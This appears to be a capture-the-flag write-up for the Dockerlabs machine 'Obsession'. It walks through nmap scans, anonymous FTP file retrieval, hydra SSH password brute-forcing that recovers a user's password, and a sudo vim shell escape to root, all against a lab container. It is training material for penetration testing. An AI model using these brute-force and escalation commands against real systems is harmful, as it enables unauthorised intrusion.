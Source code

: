 # Obsession

## Port Enumeration

To begin our scan, we use the Nmap tool during our discovery phase. As we can see, we have the following open ports:

```ruby
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2
```

```ruby
┌──(root㉿kali)-[/home/kali]
└─# nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2  
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 64
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64

```
Let's perform a more targeted scan of the services we have.
For the FTP service, we use this type of scan that tests some typical scripts:

```ruby
nmap -p21 -T4 --min-rate 1000 --script vuln,ftp-anon,ftp-bounce,ftp-syst 172.17.0.2
```
![Descripción de Obssesion](Imagenes/Obssesion_1.png)

We see that the default anonymous user and password are allowed, and we find two interesting files:
chat_gonza.txt and pendientes.txt.

Therefore, we download them to view the contents of both files with the following command once we're inside the
FTP service:

![Descripción de Obssesion](Imagenes/Obssesion_2.png)

Similarly, we perform a more specific scan for the SSH service:

```ruby
nmap -p22 -T4 --min-rate 1000 --script vuln,ssh-auth-methods,ssh-publickey-acceptance,sshv1 172.17.0.2
```
![Descripción de Obssesion](Imagenes/Obssesion_3.png)

However, we don't get anything relevant.


Let's see what's on the web page. If we examine the source code,
this appears:
![Descripción de Obssesion](Imagenes/Obssesion_4.png)

Let's examine the two files we downloaded via the FTP service:

fichero pendientes.txt

```ruby
1 Comprar el Voucher de la certificación eJPTv2 cuanto antes!

2 Aumentar el precio de mis asesorías online en la Web!

3 Terminar mi laboratorio vulnerable para la plataforma Dockerlabs!

4 Cambiar algunas configuraciones de mi equipo, creo que tengo ciertos
  permisos habilitados que no son del todo seguros..
```

fichero chat_gonza.txt
```ruby
[16:21, 16/6/2024] Gonza: pero en serio es tan guapa esa tal Nágore como dices?
[16:28, 16/6/2024] Russoski: es una auténtica princesa pff, le he hecho hasta un vídeo y todo, lo tengo ya subido y tengo la URL guardada
[16:29, 16/6/2024] Russoski: en mi ordenador en una ruta segura, ahora cuando quedemos te lo muestro si quieres
[21:52, 16/6/2024] Gonza: buah la verdad tenías razón eh, es hermosa esa chica, del 9 no baja
[21:53, 16/6/2024] Gonza: por cierto buen entreno el de hoy en el gym, noto los brazos bastante hinchados, así sí
[22:36, 16/6/2024] Russoski: te lo dije, ya sabes que yo tengo buenos gustos para estas cosas xD, y sí buen training hoy
```
We can see that there are three potential users "Gonza", "Russoski" and "Nagore", so we're going to try if any of these users allow us to access the SSH service. For this, I'm going to use the hydra tool and the "rockyou.txt" dictionary.

```ruby
hydra -l gonza -P rockyou.txt -t 16 -W 30 -f  ssh://172.17.0.2
hydra -l russoski -P rockyou.txt -t 16 -W 30 -f  ssh://172.17.0.2
hydra -l nagore -P rockyou.txt -t 16 -W 30 -f  ssh://172.17.0.2
```
![Descripción de Obssesion](Imagenes/Obssesion_5.png)

We see that we get russoski's password which is "iloveme", so we can now connect to the SSH service:

![Descripción de Obssesion](Imagenes/Obssesion_6.png)


## Escalada de privilegios

We execute the command:
```ruby
sudo -l
```

![Descripción de Obssesion](Imagenes/Obssesion_7.png)

We see that we can execute the vim binary as root, so we go to GTFOBins and check if we can exploit it:

```ruby
sudo vim -c ':!/bin/sh'
```
![Descripción de Obssesion](Imagenes/Obssesion_8.png)
